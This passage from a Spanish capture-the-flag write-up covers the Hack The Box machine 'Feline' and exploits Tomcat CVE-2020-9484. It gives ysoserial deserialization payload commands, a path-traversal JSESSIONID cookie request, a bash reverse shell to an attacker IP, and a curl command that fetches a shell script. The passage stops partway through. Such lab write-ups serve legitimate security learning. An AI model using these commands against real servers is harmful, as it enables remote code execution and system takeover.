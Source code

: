 Pero no me deja subirlo. Se leakea una ruta en el error

<img src="/writeups/assets/img/Feline-htb/4.png" alt="">

Al no poner nada en el nombre aparece otra ruta

<img src="/writeups/assets/img/Feline-htb/5.png" alt="">

La versión de Tomcat que se está empleando tiene asociado un CVE. En este [artículo](https://www.hackplayers.com/2021/01/cve-2020-9484-rce-tomcat.html) está detallado en que consiste. Para poder usar ```ysoserial```, tengo que forzar que la versión de java que se emplee sea java11

```null
update-alternatives --config java
```

```null
java -jar ysoserial-master.jar CommonsCollections2 'ping -c 1 10.10.16.9' > pwned.session
```

Subo el ```pwned.session``` y luego lo llamo a través de la cookie sin la extensión. Al tramitar una petición para que se deserialice la data, recibo la traza ICMP a mi equipo

```null
curl -s -X GET 'http://10.10.10.205:8080' -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/pwned"
```

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:13:22.743106 IP 10.10.10.205 > 10.10.16.9: ICMP echo request, id 1, seq 1, length 64
18:13:22.743173 IP 10.10.16.9 > 10.10.10.205: ICMP echo reply, id 1, seq 1, length 64
```

Para ganar acceso al sistema, creo un archivo ```index.html``` que se encargue de enviarme una reverse shell, el cual hosteo con ```python```

```null
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.9/443 0>&1'
```

Primero creo uno que lo almacena en una ruta del sistema

```null
java -jar ysoserial-master.jar CommonsCollections2 'curl 10.10.16.9 -o /dev/shm/shell' > shell1.session 
```
